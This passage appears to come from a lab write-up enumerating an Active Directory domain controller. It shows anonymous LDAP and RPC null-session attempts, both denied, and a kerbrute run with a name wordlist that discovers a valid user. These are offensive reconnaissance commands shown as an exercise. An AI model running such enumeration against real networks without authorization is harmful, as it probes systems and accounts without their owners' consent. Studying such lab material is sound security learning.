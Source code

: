 ```
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.112.188:3268 -x -b 'DC=shibuya,DC=vl'  
# extended LDIF
#
# LDAPv3
# base <DC=shibuya,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090CB6, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1
```
Nothing on RPC
```
└─$ rpcclient -N -U "" 10.10.112.188
rpcclient $> querydominfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> getusername
Account Name: ANONYMOUS LOGON, Authority Name: NT AUTHORITY
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomains
result was NT_STATUS_ACCESS_DENIED
rpcclient $> srvinfo
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED
rpcclient $> 

```

Let's try enumerating users with `kerbrute`. We find `red` user
```
└─$ kerbrute userenum /usr/share/seclists/Usernames/Names/names.txt -d shibuya.vl --dc 10.10.112.188  

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/21/25 - Ronnie Flathers @ropnop

2025/02/21 23:23:38 >  Using KDC(s):
2025/02/21 23:23:38 >   10.10.112.188:88

2025/02/21 23:27:22 >  [+] VALID USERNAME:       red@shibuya.vl
2025/02/21 23:28:34 >  Done! Tested 10177 usernames (1 valid) in 295.663 seconds
```
